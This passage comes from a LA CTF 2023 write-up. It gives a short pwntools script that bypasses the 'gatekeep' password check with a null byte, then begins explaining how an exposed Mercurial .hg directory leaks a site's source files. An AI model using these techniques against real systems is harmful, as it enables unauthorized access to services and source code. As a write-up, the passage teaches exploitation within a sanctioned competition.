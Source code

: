 ```python
from pwn import *
while (true):
    r = remote('lac.tf', 31121)
    r.recvuntil(b'Password:\n')
    r.sendline(b'\x00')
    next = r.recvline()
    if (next[-4:] == b'ou!\n'):
        print(r.recv())
        break
    r.close()
```

I particularly wanted to highlight the writeups of [giggsterpuku](https://github.com/giggsterpuku/CTF-Writeups/blob/main/LA%20CTF/pwn/gatekeep/write-up.md
) and [a1668k](https://b6a.black/posts/2023-02-26-lactf/) for highlighting this vulnerability. giggsterpuku also added an explanation for how this vulnerability was a feature for a challenge from Angstrom CTF 2021. Definitely recommend giving both of these a read! If you are interested in trying this challenge yourself, the source code is available at [https://github.com/uclaacm/lactf-archive/tree/main/2023/pwn/gatekeep](https://github.com/uclaacm/lactf-archive/tree/main/2023/pwn/gatekeep).

---

## web/my-chemical-romance

<img src="{{ "assets/writeups/lactf-2023/my-chemical-romance-prompt.jpg" | relative_url }}" alt="LA CTF 2023 Banner" width="100%"/>

This challenged involved taking advantage of leaked source code via an file inclusion of a Mercurial repository. Visiting the link in the above challenge prompt, we are greeted with a page that looks like this:

<img src="{{ "assets/writeups/lactf-2023/my-chemical-romance-1.png" | relative_url }}" alt="my-chemical-romance site" width="100%"/>

Without knowing anything else about the challenge, one can start by investingating parts of the client side until they stumble into the network tab where we see a set of interesting response headers which look like the following:

<img src="{{ "assets/writeups/lactf-2023/my-chemical-romance-2.png" | relative_url }}" alt="my-chemical-romance network tab" width="100%"/>

What exactly is `Mercurial-SCM`? Mercurial is a lesser-known source-control management software similar to `git`. While it may be lesser-known, it is still used by many companies and project teams (one example is Meta). Whereas `git` generates a `.git/` directory, Mercurial uses a `.hg/` directory. The `.hg/` directory contains a lot of information about the repository, including the commit history, the files in the repository, and the branches. The structure of the `.hg/` directory is well documented and more can be read about it [here](https://www.mercurial-scm.org/). In order to get a general layout of the repository, the `dirstate` file can be downloaded by visiting `http://my-chemical-romance.lac.tf/.hg/dirstate` to get the following file:

```text
>À:y‚U·ëÒ≈*Œ	*}„/V>                    n    ˇˇˇˇˇˇˇˇ   gerard_way2001.pyn  Å§  >cÊX8   static/404.htmln  Å§  9cÊW¿   static/index.cssn    ˇˇˇˇˇˇˇˇ   static/index.htmln  Å§ “cÊX   static/mcr-meme.jpegn  Å§ QcÊJ‹   static/my-chemical-romance.jpeg
```
